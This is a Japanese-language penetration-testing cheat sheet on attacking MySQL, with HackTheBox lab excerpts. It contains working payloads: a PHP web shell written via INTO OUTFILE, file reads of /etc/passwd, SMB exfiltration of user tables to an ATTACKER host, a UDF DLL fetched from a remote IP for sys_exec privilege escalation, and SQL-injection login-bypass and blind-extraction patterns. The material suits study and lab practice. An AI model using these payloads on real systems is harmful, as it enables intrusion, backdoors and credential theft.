

# Scenario
----

* MySQLへの攻撃シナリオは大別して３つが存在する
   1. **クライアントが攻撃者端末、サーバが被害者端末のケース**
      
      * （例１）被害者端末でMySQLのポートが公開。攻撃者は被害者端末のデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが被害者端末のケース**
      * （例２）SQL Injectionが成立
      * （例３）phpMyAdminなどのクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
      * （例４）mysqlが高権限で動作。低権限で被害者端末に侵入した攻撃者がデータベースへアクセス可能
   1. **クライアントが被害者端末、サーバが攻撃者端末のケース**
      * （例５）Adminerなどの、データベースを指定可能なクライアントツールが被害者端末で公開。攻撃者は前記クライアントツールへアクセス可能
        * HTB: Admirer
      
          
   
* シナリオおよび、データベースへアクセスするクレデンシャルの権限如何で、MySQLにおいて活用可能な構文が異なる

  | Description                                   | Command                                                      |
  | --------------------------------------------- | ------------------------------------------------------------ |
  | クライアントからDBにファイルを読み込み        | `load data local infile '/etc/passwd' into table dummy`      |
  | クライアントにDBからファイルを書き出し        | `select '<?php echo system($_GET["cmd"]); ?>' into outfile '/var/www/html/shell.php'` |
  | サーバからDBにファイルを読み込み              | `select load_file('/etc/passwd')`                            |
  | サーバにDBからファイルを書き出し              | なし                                                         |
  | 関数生成（`%MYSQL_HOME%\lib\plugin\udf.dll`） | `create function sys_exec returns int soname 'udf.dll'`      |
  | smbを利用したファイル書き出し                 | `select @@version into outfile '\\\\ATTACKER\\public\\file'` |
  | smbを利用したファイル読み出し                 | `select load_file('\\\\ATTACKER\\public\\file')`             |
  
* なお、load_fileはsecure_file_privが設定されている場合、rootであってもアクセス可能なファイルが制限される
* Htb: Enterprise
   ```console
   MySQL [joomladb]> select load_file('/etc/hosts');
   +-------------------------+
   | load_file('/etc/hosts') |
   +-------------------------+
   | NULL                    |
   +-------------------------+
   1 row in set (0.386 sec)
   
   MySQL [joomladb]> show variables like 'secure_file_priv';
   +------------------+-----------------------+
   | Variable_name    | Value                 |
   +------------------+-----------------------+
   | secure_file_priv | /var/lib/mysql-files/ |
   +------------------+-----------------------+
   1 row in set (0.540 sec)
   
   MySQL [joomladb]>w
   ```
   
* 攻撃のパターンは次のようになる。
  1. データベース内のクレデンシャルの漏洩
  2. データベース内に任意のクレデンシャルを追加することによるログインバイパス
  3. 「DBからファイルを書き出し」を利用した、PHPなどのバックドアの作成
  4. 「DBにファイルを読み込み」を利用した、id_rsaやdatabase.phpなどのクレデンシャルの漏洩
  5. 「smbを利用した」を利用したNet-NTLMハッシュの漏洩
  6. 「smbを利用した」を利用したデータベース内のクレデンシャルの漏洩
     * `select * from users into outfile '\\\\ATTACKER\\public\\file`
     * `select load_file(concat('\\\\ATTACKER\\public\\', version()))`
  7. 「DBからファイルを書き出し」と「関数生成」を利用した権限昇格
     HTB: Bastarda
  
     ```console
     Image Name                     PID Session Name        Session#    Mem Usage
     ========================= ======== ================ =========== ============
     System Idle Process              0                            0         24 K
     System                           4                            0        304 K
     smss.exe                       236                            0      1.032 K
     csrss.exe                      320                            0      4.220 K
     wininit.exe                    364                            0      4.188 K
     csrss.exe                      388                            1      7.672 K
     winlogon.exe                   440                            1      4.152 K
     services.exe                   480                            0      7.500 K
     lsass.exe                      488                            0      9.976 K
     lsm.exe                        496                            0      3.608 K
     svchost.exe                    588                            0      9.388 K
     svchost.exe                    660                            0      7.332 K
     LogonUI.exe                    744                            1     17.236 K
     svchost.exe                    752                            0     10.796 K
     svchost.exe                    792                            0     29.652 K
     svchost.exe                    824                            0     13.420 K
     svchost.exe                    896                            0      4.900 K
     svchost.exe                    936                            0     14.336 K
     svchost.exe                    256                            0     12.020 K
     spoolsv.exe                    868                            0     10.740 K
     svchost.exe                    264                            0      8.224 K
     mysqld.exe                    1052                            0     38.000 K
     svchost.exe                   1152                            0      2.580 K
     VGAuthService.exe             1208                            0     10.492 K
     vmtoolsd.exe                  1272                            0     18.108 K
     ManagementAgentHost.exe       1300                            0      9.264 K
     svchost.exe                   1332                            0     10.824 K
     WmiPrvSE.exe                  1636                            0     13.556 K
     dllhost.exe                   1904                            0     11.216 K
     msdtc.exe                     1992                            0      7.700 K
     sppsvc.exe                    2540                            0     10.576 K
     w3wp.exe                      1872                            0     12.828 K
     conhost.exe                   2784                            0      2.324 K
     mysql.exe                     2852                            0      5.132 K
     cmd.exe                       2752                            0      3.124 K
     conhost.exe                   1896                            0      2.356 K
     nc.exe                        2280                            0      3.380 K
     cmd.exe                       2964                            0      3.248 K
     tasklist.exe                   860                            0      5.308 K
     
     C:\>echo select load_file('\\\\10.10.17.187\\public\\lib_mysqludf_sys_64.dll') into dumpfile 'C:\\Program Files\\MySQL\\MySQL Server 5.5\\lib\\plugin\\udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo create function sys_exec returns int soname 'udf.dll' | mysql -u root -pmysql123!root -D drupal
     C:\>echo select sys_exec('whoami'); | mysql -u root -pmysql123!root -D drupal
     sys_exec('whoami')
     0
     
     C:\>
     ```

# SQL Injection
----

* Basics
  * SQL Injectionにおけるパラメータは基本的に「特殊記号」＋「実現したい処理」＋「コメントアウト記号」で構成可能
  * 「コメントアウト記号」を挿入し、エラーが発生しないような「特殊記号」を調査し、「実現したい処理」を挿入する
  * （例）`select * from users where username = '%s' and password = '%s' limit 1`
    1. 「コメントアウト記号」の挿入
          * `select * from users where username = 'admin' and password = ';--' limit 1`
          * SQL構文として正しくないため、エラーが発生する（エラーが観測できない場合も存在する）
    1. エラーが発生しないような「特殊記号」の挿入
          * `select * from users where username = 'admin' and password = '';--' limit 1`
          * SQL構文として正しいため、エラーは発生しない（ただし、ログインは失敗する）
    1. 「実現したい処理」の挿入
          * `select * from users where username = 'admin' and password = '' or 1 = 1;--' limit 1`
          * ログインに成功する
  * [ffuf](https://github.com/ffuf/ffuf)を利用することで、「特殊記号」の挿入の自動化が可能
    * `ffuf -u http://example.com/test?param=FUZZ;-- -w ./SecLists/Fuzzing/special-chars.txt -mc all`
* Blind SQL Injection
  * 「実現したい処理」は次のような処理になることが多い
  * `and substr((select password from users limit 1), $i, 1) = '$c'`
    * `substr`の第２引数のインデックスは1から始まることに注意
  * パスワードの推定の場合、`$i`は40文字程度まで試行する
    * sha1が20バイトのため、16進数表記で40文字
  * パスワード推定の場合、`$c`は16進数で使用する文字および$に限定可能である
    * `[a-f0-9$]`

## Reference
----
* [mysql udf a penetration test](https://www.programmersought.com/article/84344091741/)